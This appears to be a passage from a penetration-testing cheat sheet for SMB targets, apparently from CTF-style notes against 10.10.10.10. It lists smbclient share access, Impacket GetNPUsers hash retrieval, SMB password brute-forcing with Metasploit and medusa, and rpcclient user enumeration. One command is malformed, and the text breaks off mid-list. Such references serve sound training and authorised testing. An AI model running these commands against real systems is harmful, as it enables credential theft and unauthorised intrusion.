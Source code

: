 ```text
smbclient //10.10.10.10/forensic
```

### Login to Shell

```text
smbclient //10.10.10.10/profiles$
```

### Get users along with password hash

```text
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py 10.10.10.10L -usersfile
```

### Guess different smb passwords

#### with metasploit

```text
msf5 > use auxiliary/scanner/smb/smb_login
set pass_file wordlist
set USER_file users.txt
set RHOSTS 10.10.10.10
run
```

#### with medusa

```text
medusa -h 10.10.10.10 -U users.txt -P wordlist -M smbnt
```


## rpcclient commands

### entering the system

```text
rpcclient 10.10.10.10 -U support
```

### Show user information

```text
queryuser support
```

### Show users

```text
enumdomusers
```


### Show permissions
